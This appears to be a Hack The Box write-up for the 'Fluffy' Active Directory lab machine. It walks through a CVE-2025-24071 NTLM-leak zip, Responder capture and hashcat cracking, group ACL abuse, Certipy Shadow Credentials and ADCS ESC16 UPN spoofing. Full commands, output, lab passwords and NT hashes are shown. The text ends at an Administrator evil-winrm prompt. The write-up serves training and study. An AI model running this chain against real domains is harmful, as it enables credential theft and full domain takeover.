


# HTB: Fluffy — Writeup

**Difficulty:** Medium
**OS:** Windows (Active Directory)
**Techniques:** Assumed-breach AD enumeration, CVE-2025-24071 (`.library-ms` NTLM leak via Explorer), NetNTLMv2 capture/cracking, nested-group ACL abuse (GenericAll → GenericWrite), Shadow Credentials, ADCS ESC16 (CA-wide disabled Security Extension) via UPN manipulation

---

## Overview

Fluffy is an "assumed breach" Active Directory box — a low-privilege domain credential (`j.fleischman`) is provided up front. That account has read/write access to a non-default `IT` share containing an upgrade notice PDF listing several recently-disclosed CVEs, one of which — **CVE-2025-24071**, a flaw in how Windows Explorer handles `.library-ms` files inside archives — is directly exploitable from that same share. Dropping a crafted `.zip` into the share while running Responder captures a NetNTLMv2 hash for a second user, `p.agila`, the moment it's extracted on the DC. That hash cracks instantly against `rockyou.txt`. BloodHound then reveals `p.agila` is a member of `Service Account Managers`, which holds `GenericAll` over the `Service Accounts` group, which in turn holds `GenericWrite` over three service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`). Adding `p.agila` into `Service Accounts` inherits that `GenericWrite`, enabling a Shadow Credentials attack against `winrm_svc` — a member of `Remote Management Users` — for a WinRM shell and the user flag. The same technique against `ca_svc` yields its NT hash, and `certipy find -vulnerable` shows the entire CA suffers from **ESC16** (the security extension is globally disabled). Since `ca_svc` can write its own `userPrincipalName`, temporarily setting it to `administrator`, requesting a certificate, and reverting the UPN yields a certificate that authenticates as the domain Administrator — giving an Administrator WinRM shell and the root flag.

---

## Recon

### Nmap

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nmap -p- --min-rate 10000 10.129.232.88
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-21 22:31 BST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.10 seconds
```

The host doesn't respond to ICMP, so host discovery had to be disabled:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nmap -p- --min-rate 10000 10.129.232.88 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-21 22:31 BST
Nmap scan report for 10.129.232.88
Host is up (0.20s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49689/tcp open  unknown
49690/tcp open  unknown
49698/tcp open  unknown
49704/tcp open  unknown
49714/tcp open  unknown
49735/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 152.08 seconds
```

Followed with a version/script scan against the discovered ports:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nmap -p 53,88,139,389,445,464,3268,3269,5985,9389,49689,49690,49698,49704,49714,49735 -sCV -v 10.129.232.88 -Pn
...
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-22 04:38:23Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Issuer: commonName=fluffy-DC01-CA
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49689-49735/tcp open  msrpc / ncacn_http
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-08-22T04:39:15
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Nmap done: 1 IP address (1 host up) scanned in 96.87 seconds
```

Standard Windows Domain Controller port spread — Kerberos, LDAP(S), SMB, kpasswd, WinRM, and ADWS. The `fluffy-DC01-CA` certificate issuer on the LDAPS cert confirmed **AD CS is in play** before any explicit ADCS enumeration was run. `smb2-time` also flagged a **~7 hour clock skew** between the attack box and the DC — this became a recurring obstacle during every later Kerberos-dependent step.

Domain: `fluffy.htb`, hostname `DC01.fluffy.htb`, IP `10.129.232.88`.

### `/etc/hosts`

```
10.129.232.88 DC01 fluffy fluffy.htb DC01.fluffy.htb
```

### Provided Credentials

Assumed-breach box — starting low-privilege domain credential:

```
j.fleischman:J0elTHEM4n1990!
```

---

## SMB Enumeration — the `IT` Share

Credentials validated against SMB, and share enumeration turned up a non-default share with write access:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nxc smb 10.129.232.88 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.129.232.88   445    DC01             [*] Enumerated shares
SMB         10.129.232.88   445    DC01             Share           Permissions            Remark
SMB         10.129.232.88   445    DC01             -----           -----------            ------
SMB         10.129.232.88   445    DC01             ADMIN$                                 Remote Admin
SMB         10.129.232.88   445    DC01             C$                                     Default share
SMB         10.129.232.88   445    DC01             IPC$            READ                   Remote IPC
SMB         10.129.232.88   445    DC01             IT              READ,WRITE
SMB         10.129.232.88   445    DC01             NETLOGON        READ                   Logon server share
SMB         10.129.232.88   445    DC01             SYSVOL          READ                   Logon server share
```

Listing `IT`:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ smbclient --user='j.fleischman' --password='J0elTHEM4n1990!' \\\\10.129.232.88\\IT
smb: \> dir
  .                                   D        0  Mon May 19 15:27:02 2025
  ..                                  D        0  Mon May 19 15:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025
```

Two software packages (extracted alongside their original zips, implying IT staff routinely download and unpack things directly from this share) and a PDF. Grabbed the PDF for review:

```
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (157.6 KiloBytes/sec) (average 157.6 KiloBytes/sec)
```

### The Upgrade Notice



The PDF's "Recent Vulnerabilities" table lists several CVE IDs by severity:



**CVE-2025-24071** stood out: it's a flaw in `explorer.exe`'s handling of `.library-ms` files bundled inside a `.zip` — and this share is both writable and evidently browsed/extracted into by IT staff, making it a direct delivery mechanism for that exact vulnerability.

---

## Foothold — CVE-2025-24071 (`.library-ms` NTLM Leak)

CVE-2025-24071 (also tracked as CVE-2025-24054) lets an attacker recover a victim's NetNTLMv2 hash the moment they merely **extract** a specially crafted `.zip` — Explorer parses the embedded `.library-ms` file and reaches out to the attacker-controlled UNC path it references, with no need for the victim to open anything.

### Building the payload

Used the public PoC:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ git clone https://github.com/Marcejr117/CVE-2025-24071_PoC.git
Cloning into 'CVE-2025-24071_PoC'...
...
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy/CVE-2025-24071_PoC]
└──╼ [★]$ python3 PoC.py dark 10.10.15.26

[+] File dark.library-ms created successfully.
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy/CVE-2025-24071_PoC]
└──╼ [★]$ ls
exploit.zip  PoC.py  README.md  usecase.gif
```

`PoC.py` bundles a `.library-ms` file (pointed at the attacker's IP, `10.10.15.26`) into `exploit.zip`.

### Delivery and capture

Responder was started first, listening on the VPN interface:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ sudo responder -I tun0
...
[+] Listening for events...

[!] Error starting TCP server on port 53, check permissions or other servers running.
[!] Error starting UDP server on port 53, check permissions or other servers running.
```

(The port-53 bind failures are just Responder's own DNS spoofer losing out to something else already on that port — irrelevant to SMB hash capture.)

`exploit.zip` was then uploaded to the writable `IT` share:

```
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (4.0 kb/s) (average 4.0 kb/s)
smb: \> dir
  ...
  exploit.zip                         A      317  Sat Aug 22 05:53:35 2026
  ...
```

Almost immediately, Responder caught an inbound NetNTLMv2 authentication attempt — not from `j.fleischman`, but from a different account entirely, confirming someone else routinely browses this share:

```
[SMB] NTLMv2-SSP Client   : 10.129.232.88
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:df2347eebfefebd1:41CEB78A219E91FFBADF5E02F2FBC81C:0101...
```

### Cracking the hash

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ hashcat hash /usr/share/wordlists/rockyou.txt
...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
5600 | NetNTLMv2 | Network Protocol
...
P.AGILA::FLUFFY:df2347eebfefebd1:41ceb78a219e91ffbadf5e02f2fbc81c:0101...:prometheusx-303

Session..........: hashcat
Status...........: Cracked
Time.Started.....: Fri Aug 21 22:55:38 2026 (5 secs)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Cracked in 5 seconds against `rockyou.txt` — `p.agila:prometheusx-303`.

### Validating the new credential

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nxc smb 10.129.232.88 -u 'p.agila' -p 'prometheusx-303' --shares
SMB         10.129.232.88   445    DC01             [+] fluffy.htb\p.agila:prometheusx-303
SMB         10.129.232.88   445    DC01             Share           Permissions            Remark
SMB         10.129.232.88   445    DC01             IT              READ,WRITE
...
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ nxc winrm 10.129.232.88 -u 'p.agila' -p 'prometheusx-303'
WINRM       10.129.232.88   5985   DC01             [-] fluffy.htb\p.agila:prometheusx-303
```

Same shares as `j.fleischman`, and no WinRM access — this account's value was elsewhere, so it was time to map the domain.

---

## Enumeration — BloodHound

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ bloodhound-ce-python -c all -d fluffy.htb -u 'p.agila' -p 'prometheusx-303' -ns 10.129.232.88
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 3 gpos
...
INFO: Done in 00M 08S
```

(The clock-skew warning here was harmless — BloodHound.py fell back to NTLM auth for the LDAP collection. It would not be so forgiving later, when Kerberos was required outright.)

Loading the resulting data into BloodHound CE and marking `p.agila` as owned revealed a two-hop nested-group ACL chain:

1. **p.agila** → `MemberOf` → **Service Account Managers** (group)
2. **Service Account Managers** → `GenericAll` → **Service Accounts** (group)
3. **Service Accounts** → `GenericWrite` → **CA_SVC**, **LDAP_SVC**, **WINRM_SVC**


`WINRM_SVC` being a member of `Remote Management Users` made it the fastest path to a shell — but `GenericAll`/`GenericWrite` here are held by the **groups**, not directly by `p.agila`. To actually exercise that `GenericWrite` on the service accounts, `p.agila` first needed to become a real member of `Service Accounts` (inheriting its rights via group-SID token membership), which the `GenericAll` on that group (via `Service Account Managers`) permits:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ net rpc group addmem 'service accounts' p.agila -U fluffy.htb/p.agila%'prometheusx-303' -S 10.129.232.88
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ net rpc group members 'service accounts' -U fluffy.htb/p.agila%'prometheusx-303' -S 10.129.232.88
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc
```

---

## User — Shadow Credentials Against `winrm_svc`

`GenericWrite` over a user object allows adding a Shadow Credential (`msDS-KeyCredentialLink`) — an attacker-supplied certificate-backed logon key — without ever touching the account's real password. Certipy's `shadow auto` handles key-credential injection, PKINIT authentication, and NT hash retrieval in one command.

### False start: membership hadn't landed yet

The very first attempt, run before the group membership above had replicated, failed outright:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -target fluffy.htb
...
[-] Could not update Key Credentials for 'winrm_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

After confirming/re-adding `p.agila` to `Service Accounts` (a second `net rpc group members` check even showed the membership had transiently dropped out — likely AD replication lag — before `addmem` was re-run), the `INSUFF_ACCESS_RIGHTS` error stopped appearing and the run instead progressed to a Kerberos step:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -target fluffy.htb
...
[*] Successfully added Key Credential with device ID '19514ee4d7ac472782c81c1dbea389b3' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

### Fighting the clock skew

The ~7 hour skew nmap flagged earlier now blocked PKINIT outright. `ntpdate` against the DC fixed it — but only for a few seconds at a time, and several follow-up runs still hit the same `KRB_AP_ERR_SKEW`, or got as far as a TGT before failing on the NT-hash-retrieval sub-step (a separate Kerberos exchange with its own, apparently even tighter, timing window):

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ sudo ntpdate -u 10.129.232.88
2026-08-22 06:26:02.947620 (+0100) +25200.273244 +/- 0.012482 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.273244
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -target fluffy.htb
...
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[-] Failed to extract NT hash: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
...
[*] NT hash for 'winrm_svc': None
```

This repeated across roughly half a dozen `ntpdate` + `certipy shadow auto` cycles — the correction clearly wasn't holding long enough to survive both Kerberos round trips in the command. Racing the two commands back-to-back eventually won:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ sudo ntpdate 10.129.232.88
2026-08-22 06:31:37.235388 (+0100) +25200.315908 +/- 0.035210 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.315908
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -target 10.129.232.88
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Adding Key Credential with device ID 'c90f87e9711d4a4d9575f79823deba1e' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID 'c90f87e9711d4a4d9575f79823deba1e' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```

NT hash obtained for `winrm_svc`: `33bd09dcd697600edf6b3a7af4875767`

(Switching `-target` from the `fluffy.htb` FQDN — which kept throwing `DNS resolution failed` since this attack box has no real DNS record for it — to the raw DC IP also removed one source of noise from every subsequent attempt.)

### Shell as `winrm_svc`

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767

Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> dir

    Directory: C:\Users\winrm_svc\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/21/2026   9:15 PM             34 user.txt

*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> type user.txt
72a36ec7f2e03dda5373a04c0e4da668
```

`user.txt` retrieved.

---

## Root — `ca_svc` Shadow Credentials → ADCS ESC16

`ca_svc` was still sitting on the same `GenericWrite` list from `Service Accounts` membership, and its name strongly suggested a tie to Active Directory Certificate Services — worth compromising and pointing at the CA directly.

### Shadow Credentials against `ca_svc`

Same technique, same clock-skew dance (one failed attempt, then an immediate re-run after a fresh `ntpdate`):

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ sudo ntpdate 10.129.232.88
2026-08-22 06:35:49.711544 (+0100) +25200.304822 +/- 0.012246 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.304822
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account ca_svc -target 10.129.232.88
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Generating Key Credential
[*] Successfully added Key Credential with device ID 'a52a07b6ec1f40b79b796014508a942b' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

NT hash obtained for `ca_svc`: `ca0f4f9e9eb8a092addf53bb03fc98c8`

### Finding ESC16

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy find -vulnerable -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
```

The saved output (`20260821233833_Certipy.txt`) flagged a **CA-wide** vulnerability, not a per-template one:

```
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    User Specified SAN                  : Disabled
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Access Rights
        Enroll                          : FLUFFY.HTB\Cert Publishers
                                          FLUFFY.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

`1.3.6.1.4.1.311.25.2` is the OID for the `szOID_NTDS_CA_SECURITY_EXT` — the extension that normally embeds a certificate requester's SID for strong binding during Kerberos/Schannel authentication. With it globally disabled on the CA, **every** certificate this CA issues carries no SID, so the DC falls back to mapping the certificate's UPN to an AD account instead — and `ca_svc` (via its `Cert Publishers` membership visible in the BloodHound graph above) has enrollment rights.

### Exploiting ESC16 — UPN spoofing

Since `ca_svc` can freely write its own `userPrincipalName`, the plan was: set it to `administrator`, enroll a certificate, then set it back.

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy account update -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn administrator -dc-ip 10.129.232.88
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```

Requesting the certificate initially timed out twice against the short hostname/domain form before succeeding with the fully-qualified target host:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -template User -dc-ip 10.129.232.88 -target dc01.fluffy.htb -ca fluffy-DC01-CA
[-] Got error: The NETBIOS connection with the remote host timed out.
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -target DC01.fluffy.htb -ca fluffy-DC01-CA -template User
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
```

The certificate was issued to `ca_svc` but carries UPN `administrator` and no SID to contradict it — exactly the ESC16 condition. `ca_svc`'s UPN was reverted immediately afterward:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy account update -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn ca_svc -dc-ip 10.129.232.88
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
```

### Authenticating as Administrator

One more round of the clock-skew fight, then a clean TGT and NT hash:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy auth -dc-ip 10.129.232.88 -pfx administrator.pfx -u administrator -domain fluffy.htb
[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ sudo ntpdate 10.129.232.88
2026-08-22 06:50:18.282006 (+0100) +25200.323591 +/- 0.012903 10.129.232.88 s1 no-leap
CLOCK: time stepped by 25200.323591
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ certipy auth -dc-ip 10.129.232.88 -pfx administrator.pfx -u administrator -domain fluffy.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Administrator NT hash obtained: `8da83a3fa618b6e3a00e93f676c92a6e`

### Root shell

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/fluffy]
└──╼ [★]$ evil-winrm -i 10.129.232.88 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e

Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
